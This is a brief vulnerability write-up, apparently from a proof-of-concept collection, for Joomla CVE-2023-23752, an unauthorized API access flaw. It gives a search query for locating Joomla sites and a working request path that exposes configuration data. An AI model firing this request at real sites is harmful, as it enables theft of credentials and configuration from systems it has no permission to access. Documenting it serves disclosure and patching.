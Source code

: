 # Joomla application Unauthorized access vulnerability CVE-2023-23752

## Vulnerability Description

Joomla has an unauthorized access vulnerability. Attackers bypass restrictions by overwriting public values ​​and access some APIs to obtain sensitive data.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Joomla 4.0.0 ～ 4.2.7</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="Joomla"</span>

## Vulnerability reappears

Login page

![img](https://cdn.nlark.com/yuque/0/2023/png/2117730/1678242454009-958400aa-dc91-44de-aa3c-34ad783b9e2a.png)

Verify POC

```plain
/api/index.php/v1/config/application?public=true
```

![img](https://cdn.nlark.com/yuque/0/2023/png/2117730/1678242476239-386e7a49-87b2-4919-a2ac-429331bf42a1.png)
